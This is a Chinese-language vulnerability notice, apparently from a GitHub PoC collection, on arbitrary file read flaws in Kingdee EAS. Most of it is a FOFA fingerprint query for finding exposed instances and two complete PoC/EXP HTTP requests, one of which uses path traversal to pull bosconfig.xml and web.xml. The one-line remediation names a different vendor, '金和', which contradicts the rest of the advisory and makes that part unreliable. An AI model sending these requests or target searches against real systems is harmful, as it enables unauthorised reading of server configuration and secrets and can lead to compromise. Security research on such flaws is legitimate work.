


# 关于金蝶EAS系统接口任意文件读取漏洞预警

# 漏洞描述

金蝶 EAS 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。金蝶 EAS  在 pdfViewLocal和easWebClient/deploy 存在任意文件读取漏洞，攻击者可以读取敏感文件，从而可能导致服务器受到攻击并被控制。

# 影响范围

金蝶OA EAS系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：header="Apusic" || body="eassso" || header="EASSESSIONID"

POC/EXP：

GET /easWebClient/deploy/client/ctrlhome/webapps/extweb/WEB-INF/web.xml HTTP/1.1
Host: 127.0.0.1:8080
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

POC/EXP：

GET /easweb/cp/dm/pdfViewLocal.jsp?path=../config/bosconfig.xml HTTP/1.1
Host: 127.0.0.1:6888
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# 修复方案

**官方修复：**关注金和官方最新漏洞修复补丁。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
